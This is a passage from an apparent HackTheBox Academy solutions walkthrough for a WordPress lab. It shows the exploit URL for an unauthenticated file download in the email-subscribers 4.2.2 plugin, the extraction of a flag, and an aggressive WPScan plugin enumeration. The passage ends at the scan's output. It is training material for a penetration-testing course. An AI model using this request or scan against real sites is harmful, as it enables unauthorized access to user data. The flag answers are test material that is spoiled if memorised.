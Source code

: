 From the output of `WPScan`, students will know that the website is using the plugin `email-subscribers` version `4.2.2`, which is vulnerable to [unauthenticated file download](https://www.exploit-db.com/exploits/48698). Thus, students need to use the browser, navigate to `http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all%27`, and download the `all-contacts.csv` file:

![[HTB Solutions/CBBH/z. images/47183a867cc82c470e8aa81c3782837f_MD5.jpg]]

Students then need to use `grep` to filter out the flag from the `all-contacts.csv` file:

Code: shell

```shell
grep "HTB{.*}" all\'-contacts.csv
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-v7emm8wtgq]─[~]
└──╼ [★]$ grep "HTB{.*}" all\'-contacts.csv

"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```

From the output, students will know that the flag is `HTB{unauTh_d0wn10ad!}`.

Answer: `HTB{unauTh_d0wn10ad!}`

# Skills Assessment - WordPress

## Question 6

### "What is the version number of the plugin vulnerable to an LFI?"

Students first need to use `WPScan` to enumerate all plugins and set the `--plugins-detectoion` and `--plugins-version-detection` options to be `aggressive`:

Code: shell

```shell
wpscan --url http://blog.inlanefreight.local -e ap --no-banner --plugins-detection aggressive --plugins-version-detection aggressive --max-threads 60
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-v7emm8wtgq]─[~]
└──╼ [★]$ wpscan --url http://blog.inlanefreight.local -e ap --no-banner --plugins-detection aggressive --plugins-version-detection aggressive --max-threads 60

[+] URL: http://blog.inlanefreight.local/ [10.129.2.37]
[+] Started: Tue Nov  1 08:03:20 2022

Interesting Finding(s):

<SNIP>

[i] Plugin(s) Identified:

<SNIP>

[+] site-editor
 | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
```